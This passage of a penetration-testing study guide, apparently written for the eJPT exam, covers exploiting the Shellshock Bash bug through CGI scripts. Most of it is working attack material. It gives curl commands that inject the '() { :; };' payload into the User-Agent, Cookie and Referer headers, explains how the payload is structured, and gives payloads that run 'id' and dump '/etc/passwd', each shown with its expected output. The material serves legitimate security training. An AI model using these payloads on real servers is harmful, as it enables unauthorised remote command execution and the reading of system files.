 ### 🛠️ Method 2: Manual cURL Testing

```bash
# Basic manual test
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'echo VULNERABLE'" http://target.com/cgi-bin/test.cgi

# Test with different headers
curl -H "Cookie: () { :; }; echo; echo; /bin/bash -c 'echo VULNERABLE'" http://target.com/script.cgi
curl -H "Referer: () { :; }; echo; echo; /bin/bash -c 'echo VULNERABLE'" http://target.com/app.cgi
```

### 🛠️ Method 3: Burp Suite Detection

```bash
# Steps:
# 1. Configure browser proxy to Burp Suite (127.0.0.1:8080)
# 2. Navigate to target web application
# 3. Intercept CGI requests
# 4. Send to Repeater tab
# 5. Modify User-Agent header with test payload
# 6. Look for command execution in response
```

---

## ⚡ Exploitation Techniques

### 🔥 Essential Payload Structure

```bash
# Standard Shellshock payload format:
() { :; }; echo; echo; /bin/bash -c 'COMMAND_HERE'

# Breakdown:
# () { :; };     - Function definition that triggers the bug
# echo; echo;    - Two newlines for HTTP response formatting  
# /bin/bash -c   - Shell command execution
# 'COMMAND_HERE' - Your actual command
```

### 🎯 Critical Payloads for eJPT Exam

#### 1️⃣ **System Identity Check** (Always test first!)
```bash
() { :; }; echo; echo; /bin/bash -c 'id'

# Expected successful result:
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

#### 2️⃣ **Password File Enumeration** (High value target!)
```bash
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'

# Expected successful result:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
# ... complete user listing
```
